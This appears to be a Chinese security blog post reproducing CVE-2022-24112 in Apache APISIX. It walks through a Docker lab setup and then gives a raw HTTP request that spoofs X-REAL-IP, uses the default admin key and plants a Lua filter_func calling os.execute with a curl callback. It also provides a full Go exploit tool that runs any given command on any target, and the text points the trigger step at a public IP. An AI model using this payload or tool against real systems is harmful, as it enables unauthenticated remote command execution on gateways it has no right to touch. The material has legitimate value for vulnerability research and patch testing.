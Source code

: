 ```yaml
---
layout: post
title: "Apache Apisix(CVE-2022-24112)漏洞复现"
date: 2022-03-13
author: 2hanx
toc: true
categories: [漏洞复现]
tags: ["Apache", "CVE-2022-24112"]
---
```


### 漏洞介绍

Apache Apisix是美国阿帕奇（Apache）基金会的一个云原生的微服务API网关服务。该软件基于 OpenResty 和 etcd 来实现，具备动态路由和插件热加载，适合微服务体系下的 API 管理。

### 漏洞危害

RCE

### 漏洞原理

Apache APISIX  中存在安全漏洞，该漏洞源于产品的 *batch-requests* 插件未对用户的批处理请求进行有效限制。攻击者可通过该漏洞绕过Admin  Api 的限制。 以下产品及版本受到影响：Apache APISIX 1.3 ~ 2.12.1 之间的所有版本（不包含 2.12.1 ）,Apache APISIX 2.10.0 ~ 2.10.4 LTS 之间的所有版本 （不包含 2.10.4）。

### 环境搭建

根据 Apache Apisix上的[手册](https://apisix.apache.org/zh/docs/apisix/plugins/batch-requests/)搭建测试环境，修改 *docker-compose.yml* 内容如下：

```dockerfile
version: "3"

services:
  apisix:
    image: apache/apisix:2.12.1-alpine
    restart: always
    volumes:
      - ./apisix_log:/usr/local/apisix/logs
      - ./apisix_conf/config.yaml:/usr/local/apisix/conf/config.yaml:ro
    depends_on:
      - etcd
    ##network_mode: host
    ports:
      - "9080:9080/tcp"
      - "9091:9091/tcp"
      - "9443:9443/tcp"
      - "9092:9092/tcp"
    networks:
      apisix:

  etcd:
    image: bitnami/etcd:3.4.15
    restart: always
    volumes:
      - etcd_data:/bitnami/etcd
    environment:
      ETCD_ENABLE_V2: "true"
      ALLOW_NONE_AUTHENTICATION: "yes"
      ETCD_ADVERTISE_CLIENT_URLS: "http://0.0.0.0:2379"
      ETCD_LISTEN_CLIENT_URLS: "http://0.0.0.0:2379"
    ports:
      - "2379:2379/tcp"
    networks:
      apisix:

networks:
  apisix:
    driver: bridge
volumes:
  etcd_data:
    driver: local
```

之后开启 *batch-requests* 插件，即在 */example/apisix_conf/config.yaml* 文件末尾添加：

```yaml
plugins:
  - batch-requests
```

之后执行命令：`docker-compose up -d` 构建环境。

| 计算机         | IP                |
| -------------- | ----------------- |
| Kali           | `192.168.174.128` |
| Ubuntu         | `192.168.174.141` |
| Victim(Docker) | `192.168.80.2`    |

等待一段时间，访问`http://192.168.80.2:9080/`即可看到一个 **404** 页面，说明 apisix 服务已成功启动。

![1]({{ '/apache-apisix/1.png' | prepend: site.url }})

### 漏洞复现

根据[入门手册](https://apisix.apache.org/zh/docs/apisix/getting-started)上的内容可以知道，Apache APISIX 提供了强大的 [Admin API](https://apisix.apache.org/zh/docs/apisix/admin-api) 和 [Dashboard](https://github.com/apache/apisix-dashboard) 可供我们使用，不过在构建应用时将 Dashboard 去掉了，所以在本文中，我们使用 Admin API 来做演示。

它的工作原理是通过创建一个 [Route](https://apisix.apache.org/zh/docs/apisix/architecture-design/route) 并与上游服务（通常也被称为 [Upstream](https://apisix.apache.org/zh/docs/apisix/architecture-design/upstream) 或后端服务）绑定，当一个 `请求（Request）` 到达 Apache APISIX 时，Apache APISIX 就会明白这个请求应该转发到哪个上游服务中。

所以大致步骤分为：

1. 创建路由
2. 绑定路由和上游服务

不过，*batch-requests* 插件可以一次接受多个请求并以 [http pipeline](https://en.wikipedia.org/wiki/HTTP_pipelining) 的方式在网关发起多个 http 请求，合并结果后再返回客户端，这在客户端需要访问多个接口时可以显著地提升请求性能。

因此合并发的包为：

```http
POST /apisix/batch-requests HTTP/1.1
Host: 192.168.80.2:9080
User-Agent: Go-http-client/1.1
Content-Length: 450
Accept-Encoding: gzip, deflate
Connection: close

{"headers":{"Content-Type":"application/json", "X-REAL-IP": "127.0.0.1"}, "timeout": 500, "pipeline":[{"method": "PUT", "path": "/apisix/admin/routes/index?api_key=edd1c9f034335f136f87ad84b625c8f1", "body":"{\r\n \"name\": \"test\", \"method\": [\"GET\"],\r\n \"uri\": \"/isok\", \r\n \"upstream\":{\"type\":\"roundrobin\",\"nodes\":{\"httpbin.org:80\":1}}\r\n,\r\n\"filter_func\": \"function(vars) os.execute('curl http://mhyet2.dnslog.cn'); return true end\"}"}]}
```

![2]({{ '/apache-apisix/2.png' | prepend: site.url }})

之后访问 `http://81.71.7.8:9080/isok` 即可执行命令。

### 漏洞验证

```go
package main

import (
	"bytes"
	"flag"
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
	"os"
	"strings"
	"time"
)

const (
	admin_key  = "edd1c9f034335f136f87ad84b625c8f1"
	real_ip    = "127.0.0.1"
	route_path = "/apisix/admin/routes/index?api_key=" + admin_key
)

func usage() {
	fmt.Fprintln(os.Stderr, `Usage: cve-2022-24112 -t [target] -c [command]`)
}

func check(err error) {
	if err != nil {
		log.Fatalln(err)
	}
}

func genReqBody(cmd string, exec_path string) string {
	payload := fmt.Sprintf("{\"headers\":{\"Content-Type\":\"application/json\", \"X-REAL-IP\": \"%s\"}, \"timeout\": 500, \"pipeline\":[{\"method\": \"PUT\", \"path\": \"%s\", \"body\":\"{\\r\\n \\\"name\\\": \\\"test\\\", \\\"method\\\": [\\\"GET\\\"],\\r\\n \\\"uri\\\": \\\"%s\\\", \\r\\n \\\"upstream\\\":{\\\"type\\\":\\\"roundrobin\\\",\\\"nodes\\\":{\\\"httpbin.org:80\\\":1}}\\r\\n,\\r\\n\\\"filter_func\\\": \\\"function(vars) os.execute('%s'); return true end\\\"}\"}]}", real_ip, route_path, exec_path, cmd)
	return payload
}

func registerRoute(url string, reqBody string) string {
	url = url + "/apisix/batch-requests"
	jasonPayload := []byte(reqBody)
	req, err := http.NewRequest("POST", url, bytes.NewBuffer(jasonPayload))
	check(err)
	client := &http.Client{}
	resp, err := client.Do(req)
	check(err)
	defer resp.Body.Close()
	body, err := ioutil.ReadAll(resp.Body)
	check(err)
	return string(body)
}

func exploit(url string, reqBody string, path string) {
	resp := registerRoute(url, reqBody)
	if strings.Contains(resp, "\"reason\":\"OK\"") {
		fmt.Println("successfully registered route")
		time.Sleep(time.Second * 2)
		fmt.Println("execute command.")
		invoke(url + path)
	} else {
		fmt.Println("failed")
	}
}

func invoke(url string) {
	resp, err := http.Get(url)
	check(err)
	body, err := ioutil.ReadAll(resp.Body)
	check(err)
	fmt.Println("output >>", string(body))
}

func main() {
	var (
		t string
		c string
	)
	flag.StringVar(&t, "t", "", "")
	flag.StringVar(&c, "c", "", "")
	flag.Usage = usage
	flag.Parse()

	if len(t) == 0 || len(c) == 0 {
		usage()
		os.Exit(1)
	}
	// os.Setenv("HTTP_PROXY", "127.0.0.1:8080")
	path := "/isok"
	body := genReqBody(c, path)
	exploit(t, body, path)
}
```

### 修复建议

升级最新版本。

### Ref.

- [nuclei-poc](https://github.com/projectdiscovery/nuclei-templates/pull/3845/files)
